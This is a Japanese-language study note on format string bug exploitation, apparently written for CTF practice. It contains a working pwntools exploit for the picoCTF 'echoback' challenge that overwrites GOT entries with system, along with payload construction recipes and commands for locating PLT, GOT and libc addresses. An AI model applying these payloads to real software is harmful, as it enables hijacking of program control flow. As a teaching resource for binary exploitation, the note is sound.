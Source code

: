 # FSB ~Format String Bugs ~

書式文字列攻撃

## 手本コード

```python
from pwn import *
# rhp = {'host': '192.168.33.20', 'port':1234}
rhp = {'host': '2018shell1.picoctf.com', 'port':37402}

conn = remote(rhp['host'], rhp['port'])

binf = ELF('./echoback')
addr_got_printf = binf.got[b'printf']
addr_got_puts = binf.got[b'puts']
addr_plt_system = binf.plt[b'system']
addr_vuln = 0x80485ab

res = conn.recv()
log.info(res)

payload = p32(addr_got_printf + 2)
payload += p32(addr_got_printf)
payload += p32(addr_got_puts + 2)
payload += p32(addr_got_puts)
payload += b"%%%dx%%7$hn" % (((addr_plt_system >> 16) & 0xffff) - len(payload))
payload += b"%%%dx%%8$hn" % (((addr_plt_system & 0xffff) - ((addr_plt_system >> 16) & 0xffff) + 0x10000) % 0x10000)
payload += b"%%%dx%%9$hn" % ((((addr_vuln >> 16) & 0xffff) - (addr_plt_system & 0xffff) + 0x10000) % 0x10000)
payload += b"%%%dx%%10$hn" % (((addr_vuln & 0xffff) - ((addr_vuln >> 16) & 0xffff) + 0x10000) % 0x10000)

conn.sendline(payload)
conn.interactive()

```





## 基本手法

下のように入力して、

```
AAAA,%x,%x,%x,%x,%x,%x,%x
```

出力が下のようになれば攻撃可能。

```
AAAA,a62ac323,a62ad7a0,a5fe1c00,a62ad7a0,78252c78,0,41414141
```

この場合、入力した文字列がスタックの7番目に格納されている。



要するに、`printf` を呼び出した時、

32bitアーキテクチャでは以下のようになっている。

```
ebp 		: 元々のebp
ebp + 0x4 	: リターンアドレス
ebp + 0x8 	: 第一引数("AAAA,%x,%x,%x,%x,%x,%x,%x")
ebp + 0x12	: 第二引数（であるはずのアドレス）
.
.
.
```

よってebp + 0x8, ebp + 0xc, ebp + 0x10, ... という順番で中身がみれる。



64bitアーキテクチャでは,レジスタを引数とするので、以下のようになっている。

```
rdi : 第一引数 "AAAA,%x,%x,%x,%x,%x,%x,%x"
rsi : 第二引数 
rdx	: 第三引数
rcx : 第四引数
r8	: 第五引数
r9	: 第六引数

rbp 		: 元々のrbp
rbp + 0x8 	: リターンアドレス
rbp + 0x10 	: 第七引数(であるはずのアドレス)
rbp + 0x18	: 第八引数(であるはずのアドレス)
```

よって、rsi -> rdx -> rcx -> rdx -> r8 -> r9 -> rbp + 0x10 -> rbp + 0x18 ... という順番で見れる。



### 送り込む文字列（一般にpayloadと呼ばれる）

```
payload = <書き換えたい箇所のアドレス(*)> + '%' + <書き換える内容の文字数> + 'x' + '%' + <*がスタックの何番めに格納されているかを示す数字> + '$n'
```



### x86-64の対策

アドレスが `0x00123456` のように `00` で始まる場合、ヌル文字と認識されてうまくいかない。

この場合は、アドレスをpayloadの最後に持ってくることで対策できる。

```
payload =  '%' + <書き換える内容の文字数> + 'x' + '%' + <*がスタックの何番めに格納されているかを示す数字> + '$n' ＋ <書き換えたい箇所のアドレス(*)>
```



## pltのチェック

### コマンドから

```bash
objdump -d -M intel -j .plt --no ファイル名
```

書き換えるべきは、呼び出されている関数の

`ds:` の後に続く部分。



## GOTのチェック

```bash
readelf -r ファイル名
```

こっちでも分かる。

Offset の部分が書き換えるべきアドレス。

### pwntools

```python
binf = ELF('ファイルパス')
addr_got_setbuf = binf.got[b'setbuf']
```





## libc のチェック

`pwntool` を使えば以下の通り。

```python
libc = ELF('./libc.so.6')
offset_libc_system = libc.symbols[b'system']
```

